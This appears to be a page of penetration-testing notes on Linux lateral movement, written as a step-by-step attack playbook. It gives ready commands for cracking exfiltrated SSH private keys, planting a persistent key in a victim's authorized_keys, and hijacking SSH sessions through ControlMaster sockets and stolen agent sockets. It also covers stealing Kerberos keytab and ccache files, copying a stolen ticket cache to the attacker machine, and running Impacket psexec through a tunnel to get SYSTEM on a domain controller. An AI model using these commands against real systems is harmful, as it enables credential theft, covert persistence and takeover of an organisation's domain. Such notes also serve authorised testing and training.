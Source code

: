 ```yaml
---
title: Linux lateral movement
tags:
  - breach
  - operations
  - linux
  - lateral
  - movement
  - ssh
  - keys
  - kerberos
  - impacket
  - proxy
  - proxychains
  - psexec
  - domain
  - credentials
---
```


## Helpful SSH tips

### Attacking private keys

Look for private key files in their default location for different users, e.g.
`/home/${USERNAME}/.ssh/*`. We can get information about hosts recently
connected to via SSH by reading through `/home/${USERNAME}/.ssh/known_hosts`.

We can exfiltrate SSH private keys and attempt to crack them with
**JohnTheRipper**. To prepare a SSH private key for cracking, invoke the
following:

```bash
python /usr/share/john/ssh2john.py ${SSH_PRIV_KEY} > ${OUTFILE}.hash
sudo john --wordlist=/usr/share/wordlists/rockyou.txt ${OUTFILE}.hash
```

### Persistence

Invoke the following to generate a new key pair on your attacker host:

```bash
ssh-keygen
```

Copy the contents of the public key, `.pub`, to you clipboard and write it to
the victim's `authorized_keys` file, persisting your ability to reestablish
future connections without credentials. Here's an example:

```bash
echo "${PUB_KEY_CONTENTS}" >> /home/${USERNAME}/.ssh/authorized_keys
```

### Hijacking with ControlMaster

**ControlMaster** is a feature in SSH that enables multiple session over a
single network connection. We can place the following contents in the
`/home/${USERNAME}/.ssh.config` to enable this feature:

```txt
Host *
        ControlPath ~/.ssh/controlmaster/%r@%h:%p
        ControlMaster auto
        ControlPersist 10m
```

Invoke the following to enable this feature:

```bash
chmod 644 ~/.ssh/config
mkdir ~/.ssh/controlmaster
```

When the user we've created this ControlMaster configuration for establishes an
SSH connection to other remote hosts, it will create a socket file in
`~/.ssh/controlmaster`. Once they establish a connection, we can also SSH to the
same target, piggybacking off their connection.

If we're not logged in as the same user as the victim user, or as the `root`
user, we can piggyback of their SSH session by invoking the following:

```bash
ssh -S ${PATH_TO_CONTROLMASTER_SOCKET} ${USER}@${RHOST}
```

### Hijacking SSH-Agent and SSH Agent Forwarding

**SSH-Agent** is a utility users can use locally to keep track of their
passphrases for private keys. **SSH Agent Forwarding** is a utility we can use
to connect to remote hosts using an intermediate host, where the intermediate
host doesn't have to store our private key.

The problem is that, if a `root` user has compromised the intermediate host,
they can hijack a session established with SSH Agent Forwarding. Invoke the
following on an intermediate host to find hijacking opportunities:

```bash
ps aux | grep ssh
pstree -p offsec | grep ssh
```

Given the process ID for an interactive session established through SSH, we can
inspect the process' environment variables to find its `SSH_AUTH_SOCK`. Invoke
the following to read a process' environment variables:

```bash
cat /proc/${PROCESS_ID}/environ
```

With a valid `SSH_AUTH_SOCK`, we can add the key for the SSH Agent to our cache.
Then we can hijack the victim's session, for example:

```bash
SSH_AUTH_SOCK=${VICTIM_SSH_AUTH_SOCK_PATH} ssh-add -l
SSH_AUTH_SOCK=${VICTIM_SSH_AUTH_SOCK_PATH} ssh ${USER}@${RHOST}
```

## Helpful Kerberos tips

### Keytab files

**Keytab** files enable users to access **Kerberos**-enabled network resources
while impersonating the user who created the keytab file. These files usually
contain a **User Principal Name (UPN)** for the domain and encrypted keys.

If you're the `root` user on a Linux machine, or you can read / access a user's
keytab files, you can load this keytab file into your cache and authenticate as
the user within the domain and access Kerberos-enabled resources the user can
access. Here's an example invocation of loading and refreshing a token for a
keytab file:

```bash
kinit ${UPN} -k -t ${KEYTAB_FILEPATH}
kinit -R
```

### Credential cache files

**Kerberos credential cache** files are written to the `/tmp` directory. As the
`root` user, if they're accessible, we can acquire them and reuse the victim
user's Ticket Granting Ticket (TGT) to access Kerberos-enabled network services.
Here's an example attack:

```bash
ls -al /tmp/krb5cc_*
sudo cp ${TARGET_CCACHE_FILE} ${OUTFILE}
sudo chown ${GROUP}:${USER} ${OUTFILE}
kdestroy
klist
export KRB5CCNAME=${OUTFILE}
klist
```

### Impacket

Using [Impacket](https://github.com/fortra/impacket), we can use a domain-joined
compromised Linux host to enumerate and attack the domain from our attacker Kali
machine. First we'll exfil our stolen **ccache** file:

```
scp ${USER}@${RHOST}:${OUTFILE} ${LOCALFILE}
export KRB5CCNAME=${LOCALFILE}
sudo apt install krb5-user --yes
```

Make sure to modify your `/etc/hosts` file to enable domain name resolution for
the Domain Controller's (DC) hostname. Also comment out the `proxy_dns`
configuration for `/etc/proxychains.conf`.

Establish a dynamic tunnel through the domain-joined, compromised host, for
example:

```bash
ssh ${OFFSEC}@${RHOST} -D 9050 -N
```

After all this setup, we can now enumerate users within the domain with the
following:

```bash
proxychains python /usr/share/doc/python3-impacket/examples/GetADUsers.py -all -k -no-pass -dc-ip ${DCHOST} ${DOMAIN}/${USER}
```

We can also acquire all the **Service Principal Names (SPN)** for services in
the domain:

```bash
proxychains python /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -k -no-pass -dc-ip ${DCHOST} ${DOMAIN}/${USER}
```

Here's an example of using `psexec` through our tunnel to obtain code execution
as **SYSTEM** on the DC:

```bash
proxychains python /usr/share/doc/python3-impacket/examples/psexec.py -k -no-pass ${UPN}
```
